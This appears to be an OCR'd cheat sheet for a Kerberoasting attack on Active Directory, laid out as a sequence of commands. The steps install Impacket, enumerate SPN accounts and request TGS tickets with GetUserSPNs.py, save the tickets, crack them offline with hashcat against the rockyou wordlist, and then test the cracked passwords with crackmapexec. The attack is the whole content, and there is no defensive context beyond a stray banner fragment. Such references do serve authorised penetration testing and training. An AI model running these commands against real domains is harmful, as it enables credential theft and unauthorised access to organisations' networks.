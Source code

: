 ```yaml
---
legal-banner: true
---
```


### **STEP 1: SETUP IMPACKET TOOLS**

1.  Clone the Impacket repository:  
    `git clone https://github.com/SecureAuthCorp/impacket.git`
2.  Navigate to the Impacket directory:  
    `cd impacket`
3.  Install Impacket using pip:  
    `sudo python3 -m pip install .`

### **STEP 2: LISTING ACCOUNTS AND REQUESTING TGS TICKETS**

2.  Listing SPN Accounts  
    `GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME]`
3.  Requesting TGS Tickets  
    `GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME] -request`

### **STEP 3: REQUESTING SPECIFIC TGS TICKETS AND SAVING TO FILE**

4.  Requesting a Specific TGS Ticket  
    `GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME] -request-user [SPN-USERNAME]`
5.  Saving TGS Tickets to a File  
    `GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME] -request-user [SPN-USERNAME] -outputfile [OUTPUT-FILE]`

### **STEP 4: CRACKING TGS TICKETS AND CONFIRMING ACCESS**

6.  Cracking TGS Tickets Offline  
    `hashcat -m 13100 [TGS-FILE] /usr/share/wordlists/rockyou.txt`
7.  Confirm access with the cracked credentials:  
    `crackmapexec smb [DC-IP] -u [USERNAME] -p [PASSWORD]`